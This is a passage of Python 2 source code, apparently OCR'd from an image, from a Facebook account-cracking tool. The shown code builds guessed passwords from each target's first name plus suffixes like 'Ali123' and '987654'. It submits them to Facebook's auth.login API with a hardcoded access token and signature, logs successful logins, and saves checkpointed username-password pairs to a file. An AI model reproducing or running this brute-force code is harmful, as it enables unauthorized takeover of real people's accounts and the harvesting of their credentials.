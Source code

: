 					cek.close()

					cekpoint.append(user+pass1)

				else:

					pass2 = b['first_name']+'Ali123'

					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

					q = json.load(data)

					if 'access_token' in q:

						print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2

						oks.append(user+pass2)

					else:

						if 'www.facebook.com' in q["error_msg"]:

							print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2

							cek = open("out/checkpoint.txt", "a")

							cek.write(user+"|"+pass2+"\n")

							cek.close()

							cekpoint.append(user+pass2)

						else:

							pass3 = b['first_name'] + '987654'

							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

							q = json.load(data)

							if 'access_token' in q:

								print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3

								oks.append(user+pass3)

							else:

								if 'www.facebook.com' in q["error_msg"]:

									print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3

									cek = open("out/checkpoint.txt", "a")

									cek.write(user+"|"+pass3+"\n")
